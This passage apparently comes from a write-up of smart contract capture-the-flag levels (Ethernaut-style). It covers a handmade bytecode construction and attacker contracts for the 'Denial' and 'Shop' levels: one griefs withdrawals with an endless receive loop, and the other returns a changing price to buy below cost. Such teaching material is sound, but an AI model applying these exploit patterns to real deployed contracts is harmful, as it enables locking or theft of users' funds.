 The init code is: `0x600A600C600039600A6000F3`.

### Final code
`Final code = Init code | Runtime code` where `|` is concatenation.

Finalcode = `0x600A600C600039600A6000F3602A60005260206000F3`.


## Alien Codex

## Denial
As we can set any withdraw partner, we can create a contract that will be a partner and receive 1% of the contract ether balance. We just have to create an infinite loop in the receive function. And so, ether will be locked in contract for ever!

```
contract DenialAttacker {
    Denial victim;

    constructor(address _victim) {
        victim = Denial(payable(_victim));
        victim.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(true) {
            uint test = 1;
        }
    }
}
```

## Shop
Here the vulnerable contract calls the Buyer 2 times. It is simple. For first call, the price() function returned value will be 100, the second time it will be < 100.
The attacker contract is:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}

contract attackShop {
    address targetContract = 0x13E373631700b449AD8D048a8feB2404c850d233;

    function price() external view returns (uint256) {
        uint256 result = 0;
        Shop(msg.sender).isSold() ? result = 10 : result = 100;
        return result;
    }

    function attack() external {
        Shop(targetContract).buy();

    }
}
```
